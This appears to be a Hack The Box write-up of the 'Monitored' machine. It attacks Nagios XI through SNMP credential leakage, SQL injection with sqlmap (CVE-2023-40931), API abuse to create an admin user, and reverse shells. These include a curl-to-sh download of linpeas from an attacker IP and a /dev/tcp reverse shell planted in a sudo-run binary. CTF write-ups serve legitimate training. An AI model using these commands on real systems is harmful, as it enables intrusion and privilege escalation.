---
---

# HTB - Monitored

- NMAP


 



- UDP Scan:

```bash
sudo nmap nagios.monitored.htb -sU -vvv

```



- Add **nagios.monitored.htb** to /etc/hosts






- Directory bruteforcing:

```bash
ffuf -u https://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```



- FUZZ /api

```bash
ffuf -u https://nagios.monitored.htb/nagiosxi/api/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



- FUZZ /v1
/v1 is an indicator of version controlled endpoints:

```bash
ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```






- Filter:

```bash
ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 4

```



- **Incorrectly** formatted POST request:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"test": "test"}' -k https://nagios.monitored.htb/nagiosxi/api/v1/authenticate

```



- After looking at the Login page POST request - we can see two things:
The Content-Type and

how the username and password is being sent as parameters




- Correctly formatted POST request:
Can include **-H "Content-Type: application/x-www-form-urlencoded"** but isn't necessary

```bash
curl -X POST -d "username=test&password=test" -k https://nagios.monitored.htb/nagiosxi/api/v1/authenticate

```



- **<u>SNMP:</u>**
SNMPv1: Authentication is based on a string (community string) that travels in plain-text (all the information travels in plain text)




- From the NMAP scan we can see it's SNMP v1 and the community string is **public**

- Check login with Metasploit (and we get the Community String - **public**) as well



```bash
snmpwalk -c public 10.129.230.96 -v 1

```



```bash
sudo apt install snmp-mibs-downloader

```
```bash
sudo nano /etc/snmp/snmp.conf #comment out mibs
```



- Now it shows the names:



- Let snmpwalk run and output to a file:

```bash
snmpwalk -c public 10.129.230.96 -v 1 > snmp.txt

```
- SNMP-Check:
The output format is much better

```bash
snmp-check 10.129.230.96

```



- Found a potential username and password - looking at services:



**svc : XjH7………**

- Tried to login at the login page and SSH with it but it doesn't work, as well as /terminal:



- Try to login to the API:

```bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=svc&password=<password>" -k https://nagios.monitored.htb/nagiosxi/api/v1/authenticate

```



Auth_token: **815a6e02614c74f9bce2bd585298b5efa0858d6d**

- Auth tokens expire if not used

- Look at Nagios docs:
<https://www.nagios.org/ncpa/help/2.0/api.html>

- Go to:
[**https://nagios.monitored.htb/nagiosxi/?token=\<token\>**](https://nagios.monitored.htb/nagiosxi/?token=%3ctoken%3e)

<https://nagios.monitored.htb/nagiosxi/?token=815a6e02614c74f9bce2bd585298b5efa0858d6d>







- Searching on google for Nagios 5.11.0 exploit - There seems to be a SQLi exploit (CVE-2023-40931)
<https://outpost24.com/blog/nagios-xi-vulnerabilities/>




- SQLmap:






- It needs to be a cookie of an authenticated user

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie "nagiosxi=q0mkm8crf2a3rckum3enqgafje" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump

```



nagiosadmin : \$2a\$10\$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C

API_Key : IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

- The hash is a bcrypt hash:



- Couldn't crack it with rockyou.txt

- Maybe the api_key is for the API endpoints

- Looking for API docs:
<https://support.nagios.com/forum/viewtopic.php?t=42923>

<https://support.nagios.com/kb/article/nagios-xi-how-to-apply-configuration-using-the-api-697.html>

- Changing the parameter to **?apikey=** seems to give a different error



- We can maybe look at Admin stuff - with the **/api/v1/system**:
<https://nagios.monitored.htb/nagiosxi/api/v1/system/status?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL>




- Got something different back

/user




- According to the article above, we can do something like this:

```bash
curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin1&password=password1&name=john%20smit&email=john@localhost"

```



- Added a user:



But it's just a user

- Go to this site and click on Administrator -\> Help -\> System Reference
<https://nagiosxi.demos.nagios.com/nagiosxi/>




Auth_level is by default = user

- Change auth_level = admin:

```bash
curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin&password=admin&auth_level=admin&name=john%20smit&email=john2@localhost"

```



- Log in to nagiosxi



- We have an admin panel

<https://assets.nagios.com/downloads/nagiosxi/docs/How-To-Use-The-Actions-Component-in-Nagios-XI.pdf>

Configure -\> Core Config Manager -\> Commands -\> Add New




Input a rev shell




. -\> Quick Tools -\> Apply configuration

.-\> Monitoring -\> Services




- Pick one and edit:
Choose the command we made




- Set up listener on Kali

- . -\> Quick Tools -\> Apply configuration

- Shell:



- The shell is temperamental but if it drops out, just restart the listener and wait or
in Services, choose your service and click Run Check Command and stop the command after you get a shell

- To get a better shell:

```bash
ssh-keygen -t rsa -b 4096

chmod 600 id_rsa

echo "id_rsa.pub" > .ssh/authorized_keys

ssh nagios@10.129.230.96 -i id_rsa

```



**<u>Priv esc:</u>**

```bash
sudo -l

```



- Upload linpeas:

```bash
curl http://10.10.14.38:8082/linpeas.sh | sh

```



- Looking at the services from linpeas:

```bash
systemctl status nagios.service

```



- Reading the script **manage_services.sh**
We can see that it's a script that basically does what systemctl does - starts and stops services and looks at the status




- We have sudo rights to run this script with **wilcard \*** arguments

- Looking at the list of services that we can start/ stop - **ncpd** stands out because we can write to that executable




**Everything in Linux is a file**

- Set up listener:

```bash
rlwrap -cAr nc -lvnp 9001

```
- Do the following:

```bash
rm -rf /usr/local/nagios/bin/npcd

nano /usr/local/nagios/bin/npcd

#!/bin/bash
bin/bash -i >& /dev/tcp/10.10.14.38/9001 0>&1
chmod +x /usr/local/nagios/bin/npcd
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```













